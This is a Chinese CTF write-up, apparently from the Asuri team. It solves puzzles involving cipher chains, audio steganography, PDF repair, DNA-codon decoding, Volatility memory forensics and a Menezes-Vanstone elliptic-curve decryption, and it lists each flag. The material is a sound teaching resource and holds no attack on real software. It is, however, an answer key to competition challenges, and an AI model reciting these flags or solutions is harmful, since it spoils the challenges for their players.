取消隐藏后，我们就发现了两行字符，考虑希尔加密，得到密钥


拿到密钥后，我们再用rabbit解密，得到一串规整的字符


这时候考虑base家族，用base32解决了


这一看就很明显是unicode加密后的结果,解密一看很明显的佛说加密


再次解密后就得到了密码


打开文件是一段音频，我们考虑音频隐写，利用Audacity打开，查看频谱图就可以得到flag


就结束啦

### broken\_secret

首先打开pdf报错会发现里面的obj全部都变成了@bj
```
1 0 @bj
<<
    /Type /Catalog
    /AcroForm 5 0 R
    /Pages 2 0 R
    /NeedsRendering false
    /Extensions
    <<
        /ADBE
        <<
            /ExtensionLevel 3
            /BaseVersion /1.7
        >>
    >>
>>
end@bj
```

将这一步修复好之后，使用pdfstreamdumper就能够查看内部的内容了:  
  
不过发现这里存在两个object，其中一个里面写了很多文字，另一个则是一个图片，看上去被js加密了，所以我们这里需要想办法将图片解密开来。一种办法是直接将这段代码dump出来，或者我们可以选择修复pdf。如果我们现在尝试打开pdf的话，会发现此时打印的是一段假的flag，提示我们要去寻找入口。此时会发现xfa没有发生渲染，注意到在obj1中的render为false，我们需要改成true：
```
1 0 0bj
<<
    /Type /Catalog
    /AcroForm 5 0 R
    /Pages 2 0 R
    /NeedsRendering true
    /Extensions
    <<
        /ADBE
        <<
            /ExtensionLevel 3
            /BaseVersion /1.7
        >>
    >>
>>
end0bj
```
之后尝试打开pdf，就能见到一段和protein介绍有关的内容，这段内容提示了之后图片的含义，这里先记下来  
  
之前我们注意到，还有一个对象，但是引用表中，有效的只有6项，第七个obj展示不出来：
```
0000000000 65535 f 
0000000019 00000 n 
0000000137 00000 n 
0000000336 00000 n 
0000000487 00000 n 
0000000706 00000 n 
0000000732 00000 n 
```
这里有一个小技巧，这里把第7个obj的编号改成6，即可展示6的图片~

根据前面对文章dna=>rna=>protein的描述
，每3个密码子可以编码为一个氨基酸，每种氨基酸都有一个英文字母的缩写，刚好有二十来种，起源于一张老图如下

例如其中的最开始的CAU，对应的就是CAT（同CAU-组氨酸)，为H，故有HAPPYNEWYEAR

我们拿出基因序列为
`AUCUAGAGGGAAGCUCUGCUGUACUAGAUGAUUUCGUCGUAGACUCACGAAUAGGAACUGGAUGAAAGGUAGGAUGCUUAC`
可以在线解密[https://skaminsky115.github.io/nac/DNA-mRNA-Protein_Converter.html](https://skaminsky115.github.io/nac/DNA-mRNA-Protein_Converter.html)也可以用脚本写翻译脚本
```python
# Python program to conver 
# altered DNA to protein 
  
seq = "AUCUAGAGGGAAGCUCUGCUGUACUAGAUGAUUUCGUCGUAGACUCACGAAUAGGAACUGGAUGAAAGGUAGGAUGCUUAC"
  
  
def translate(seq): 
    table = { 
        'AUA':'I', 'AUC':'I', 'AUU':'I', 'AUG':'M', 
        'ACA':'T', 'ACC':'T', 'ACG':'T', 'ACU':'T', 
        'AAC':'N', 'AAU':'N', 'AAA':'K', 'AAG':'K', 
        'AGC':'S', 'AGU':'S', 'AGA':'R', 'AGG':'R',  
        'CUA':'L', 'CUC':'L', 'CUG':'L', 'CUU':'L', 
        'CCA':'P', 'CCC':'P', 'CCG':'P', 'CCU':'P', 
        'CAC':'H', 'CAU':'H', 'CAA':'Q', 'CAG':'Q', 
        'CGA':'R', 'CGC':'R', 'CGG':'R', 'CGU':'R', 
        'GUA':'V', 'GUC':'V', 'GUG':'V', 'GUU':'V', 
        'GCA':'A', 'GCC':'A', 'GCG':'A', 'GCU':'A', 
        'GAC':'D', 'GAU':'D', 'GAA':'E', 'GAG':'E', 
        'GGA':'G', 'GGC':'G', 'GGG':'G', 'GGU':'G', 
        'UCA':'S', 'UCC':'S', 'UCG':'S', 'UCU':'S', 
        'UUC':'F', 'UUU':'F', 'UUA':'L', 'UUG':'L', 
        'UAC':'Y', 'UAU':'Y', 'UAA':'_', 'UAG':'_', 
        'UGC':'C', 'UGU':'C', 'UGA':'_', 'UGG':'W', 
            } 
    protein ="" 
    if len(seq)%3 == 0: 
        for i in range(0, len(seq), 3): 
            codon = seq[i:i + 3] 
            protein+= table[codon] 
    return protein 
print(translate(seq))
#flag{I_REALLY_MISS_THE_ELDER_DAY}
```

### memory
出题出的太快了没出好给师傅们道歉。。
首先简单分析一下内存:
```
Volatility Foundation Volatility Framework 2.6
INFO    : volatility.debug    : Determining profile based on KDBG search...
          Suggested Profile(s) : Win7SP1x86_23418, Win7SP0x86, Win7SP1x86
                     AS Layer1 : IA32PagedMemoryPae (Kernel AS)
                     AS Layer2 : FileAddressSpace (F:\Taihu_MISC\dump)
                      PAE type : PAE
                           DTB : 0x185000L
                          KDBG : 0x8297ac28L
          Number of Processors : 1
     Image Type (Service Pack) : 1
                KPCR for CPU 0 : 0x8297bc00L
             KUSER_SHARED_DATA : 0xffdf0000L
           Image date and time : 2020-11-04 16:14:45 UTC+0000
     Image local date and time : 2020-11-05 00:14:45 +0800
```
发现是win7，稍微搜索一下磁盘，发现一个可疑文件:
```
0x000000003fdf6118      8      0 RWD--- \Device\HarddiskVolume1\Users\link3\Desktop\Untitled.png
```
结合题目的提示，dll管家就是dllhost。win7的图片管理器其实也是由dllhost拉起来的，而这个进程还在运行，那么猜测可能是打开了这个文件，于是将当前进程dump下来:
```
volatility_2.6_win64_standalone.exe -f dump --profile=Win7SP1x86_23418 memdump -p 3148 -D ./test
```
用gimp强行查看，可以得到图片

最后几个字符看的不是很清楚，不过注意到提示里面的`[ans]`，所以可以猜测最后的flag为:
```
flag{From_Mem_to_find_ans}
```

## Crypto

### Certificate Authority
这个题目的加密算法其实是老算法`Menezes-Vanstone cryptosystem`

#### 解析椭圆曲线
首先，要能够成功用openssl解析证书，才能够知道这个椭圆曲线的参数。解析的指令为:
```
openssl ec -in p384-key.pem -text
```
输出的内容为:
```
Private-Key: (384 bit)
priv:
    e0:5b:05:a4:d6:c3:36:fb:a9:34:6a:64:93:2f:14:
    5a:4c:89:d6:41:a0:7a:4c:dd:a1:85:da:ed:a7:94:
    3f:a0:dc:c2:42:88:20:cc:7f:f7:64:4d:81:79:17:
    eb:ca:ce
pub:
    04:86:25:db:50:57:80:51:60:3a:33:67:9d:dc:3a:
    47:25:8f:38:55:3f:22:84:0d:70:76:a2:f8:e2:02:
    96:da:56:88:6a:7e:2e:24:0f:cf:0b:57:75:f4:74:
    ca:0b:06:90:b0:41:c4:46:ff:ef:03:ae:4b:3e:62:
    2f:5b:99:64:9a:26:41:72:e7:df:a8:5b:5c:e8:74:
    68:ac:43:6e:67:9f:31:a7:92:ae:88:30:41:4e:81:
    51:5d:dc:61:db:c7:08
Field Type: prime-field
Prime:
    00:ff:ff:ff:ff:ff:ff:ff:ff:ff:ff:ff:ff:ff:ff:
    ff:ff:ff:ff:ff:ff:ff:ff:ff:ff:ff:ff:ff:ff:ff:
    ff:ff:fe:ff:ff:ff:ff:00:00:00:00:00:00:00:00:
    ff:ff:ff:ff
A:
    00:ff:ff:ff:ff:ff:ff:ff:ff:ff:ff:ff:ff:ff:ff:
    ff:ff:ff:ff:ff:ff:ff:ff:ff:ff:ff:ff:ff:ff:ff:
    ff:ff:fe:ff:ff:ff:ff:00:00:00:00:00:00:00:00:
    ff:ff:ff:fc
B:
    00:b3:31:2f:a7:e2:3e:e7:e4:98:8e:05:6b:e3:f8:
    2d:19:18:1d:9c:6e:fe:81:41:12:03:14:08:8f:50:
    13:87:5a:c6:56:39:8d:8a:2e:d1:9d:2a:85:c8:ed:
    d3:ec:2a:ef
Generator (uncompressed):
    04:aa:87:ca:22:be:8b:05:37:8e:b1:c7:1e:f3:20:
    ad:74:6e:1d:3b:62:8b:a7:9b:98:59:f7:41:e0:82:
    54:2a:38:55:02:f2:5d:bf:55:29:6c:3a:54:5e:38:
    72:76:0a:b7:36:17:de:4a:96:26:2c:6f:5d:9e:98:
    bf:92:92:dc:29:f8:f4:1d:bd:28:9a:14:7c:e9:da:
    31:13:b5:f0:b8:c0:0a:60:b1:ce:1d:7e:81:9d:7a:
    43:1d:7c:90:ea:0e:5f
Order:
    00:ff:ff:ff:ff:ff:ff:ff:ff:ff:ff:ff:ff:ff:ff:
    ff:ff:ff:ff:ff:ff:ff:ff:ff:ff:c7:63:4d:81:f4:
    37:2d:df:58:1a:0d:b2:48:b0:a7:7a:ec:ec:19:6a:
    cc:c5:29:73
Cofactor:  1 (0x1)
Seed:
    a3:35:92:6a:a3:19:a2:7a:1d:00:89:6a:67:73:a4:
    82:7a:cd:ac:73
```
这里可以知道，priv的值为`0xe05b05a4d6c336fba9346a64932f145a4c89d641a07a4cdda185daeda7943fa0dcc2428820cc7ff7644d817917ebcace`，pubkey的开头值为`04`，表示之后的84个数字从中间分成两份，分别表示公钥中的两个点。这里我们能够知道生成元为
```
G(0xAA87CA22BE8B05378EB1C71EF320AD746E1D3B628BA79B9859F741E082542A385502F25DBF55296C3A545E3872760AB7,0x3617DE4A96262C6F5D9E98BF9292DC29F8F41DBD289A147CE9DA3113B5F0B8C00A60B1CE1D7E819D7A431D7C90EA0E5F)
```
然后可以直接用椭圆曲线的公式:
```
Pubkey=G*PrivKey
```
算出来。

#### Menezes-Vanstone 加密
其实这里使用的就是`Menezes-Vanstone`加密算法。如果能够在网上搜到的话应该可以找到更加相信的数学说明。（PS：密码学的课本上也有这个算法）

看到给出的加密公式
```
x1 = int(codecs.encode(flag[:12],'hex'),16)
x2 = int(codecs.encode(flag[12:],'hex'),16)
X = (x1,x2)
k = randrange(1, n-1)
y0 = k*generator_384
KPoint = k*PubKey
Y = (X[0] * KPoint.x() % _p, X[1]*KPoint.y() % _p)
```
这里的`y0`和`Y`都是已知的。X是明文，用公式写起来就是
```
y0=(k*Genrator.x, k*Genrator.y)
(Kpoint.x, Kpoint.y)=(Pubkey.x*k, Pubkey.y*k)
Y[0] = X[0]*Kpoint.x mod _p
Y[1] = X[1]*Kpoint.x mod _p
```
这里可以看到公钥参与到了明文的加密中，所以解密肯定时要用到密钥的。但是这里的k是一个随机数，这个随机数并没有公开，要怎么办呢？注意到之前加密中没有参与的y0，可以想到解密的关键就是**利用y0**
```
首先我们知道:
(Kpoint.x, Kpoint.y)=(Pubkey.x*k, Pubkey.y*k)
而
y0 = (k*Genrator.x, k*Genrator.y)
由于此时我们知道密钥PrivKey，则此时有
(Pubkey.x, Pubkey.y) = (Generator.x*Privkey, Generator.y*Privkey)
所以可以得到
(Kpoint.x, Kpoint.y)=(Pubkey.x*k, Pubkey.y*k)    
					=(Generator.x*Privkey*k, Generator.y*Privkey*k)
					=(Generator.x*k, Generator.y*k)*PrivKey
					=y0*PrivKey
```
由上述式子可以得到关键点`Kpoint`，于是就可以避免知道k。那么最后明文的求法就是:
```
X[0] = Y[0]*Kpoint.x^(-1) mod _p
X[1] = Y[1]*Kpoint.y^(-1) mod _p
```
这里`Kpoint.x^(-1)|Kpoint.y^(-1)`表示对应的数值在mod_p下的逆元。

flag：
```
flag{3CC_I3_Use7f1_HaHA}
```

### aegis
这一题的详细解释放在了[这里](https://www.anquanke.com/post/id/222629)，欢迎师傅们去踩（

## 总结

出题总的来说队里的师傅们也是尽力了，主要是没想到小比赛来了太多的大师傅，超出了大伙的预料，题目难度把控可能有点问题。不过也是辛苦队伍里面的师傅们了，希望Asuri还能有下一次举办外部比赛的机会~